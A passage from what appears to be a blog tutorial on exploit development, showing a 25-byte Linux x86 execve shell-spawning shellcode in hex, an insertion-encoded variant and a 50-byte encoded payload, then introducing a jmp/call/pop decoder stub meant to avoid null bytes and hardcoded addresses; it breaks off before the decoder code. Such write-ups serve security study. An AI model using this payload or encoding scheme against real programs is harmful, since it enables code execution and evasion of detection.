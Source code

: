 Shellcode Length 25


Decoded Shellcode:

0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,

Insertion shellcode

0x31,0xa9,0xc0,0x1f,0x50,0xdd,0x68,0x22,0x2f,0x9e,0x2f,0x78,0x73,0x32,0x68,0x0c,0x68,0x64,0x2f,0x74,0x62,0x84,0x69,0xf2,0x6e,0xde,0x89,0xf6,0xe3,0x93,0x50,0xf1,0x89,0xb5,0xe2,0x15,0x53,0x80,0x89,0x82,0xe1,0x93,0xb0,0xb6,0x0b,0x5d,0xcd,0x2c,0x80,0x42,

Encoded shellcode

0x4e,0xc7,0x51,0xec,0x58,0x01,0xdb,0x3f,0xef,0xf4,0xef,0xda,0x2a,0x3e,0xdb,0x1e,0xdb,0x9b,0xef,0x9a,0x3b,0x95,0xcb,0x32,0xfb,0xf0,0xc5,0x72,0x23,0x24,0x58,0x42,0xc5,0x86,0x33,0x8c,0x28,0x55,0xc5,0x35,0x43,0x24,0x56,0x76,0xad,0x09,0x02,0x10,0x55,0x39,

Encoded Shellcode Length 50
</pre>

### The Custom Decoder&nbsp;

<p style="text-align:justify;">
At this section, an assembly wrapper will be used to decode the encoded payload which will implement the decoding scheme. The main purpose of the custom decoder is to implement a generic solution making the decoder work in different linux environments. The decoding scheme will be applied at the following encoded payload.
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
0x4e,0xc7,0x51,0xec,0x58,0x01,0xdb,0x3f,0xef,0xf4,0xef,0xda,0x2a,0x3e,0xdb,0x1e,0xdb,0x9b,0xef,0x9a,0x3b,0x95,0xcb,0x32,0xfb,0xf0,0xc5,0x72,0x23,0x24,0x58,0x42,0xc5,0x86,0x33,0x8c,0x28,0x55,0xc5,0x35,0x43,0x24,0x56,0x76,0xad,0x09,0x02,0x10,0x55,0x39
</pre>

<p style="text-align:justify;">
The custom decoder implemented using the <b>jmp/call/pop</b> technique in order to achieve two basic things
</p>

1. Avoid null bytes
2. Avoid hardcoded addresses


<p style="text-align:justify;">
In order the shellcode to work in other linux systems or other vulnerable programs, it should not contain hardcoded addresses. Furthermore, the shellcode&nbsp;must not contain <b>\x00 (null)</b> bytes as these used to terminate a string with a certain impact of breaking the shellcode and stop execution.
</p>

<p style="text-align:justify;">
Along with the above two points in mind it is time to start implementing the shellcode while first describing the <b>jmp/call/pop</b> technique as shown at the following program structure
</p>
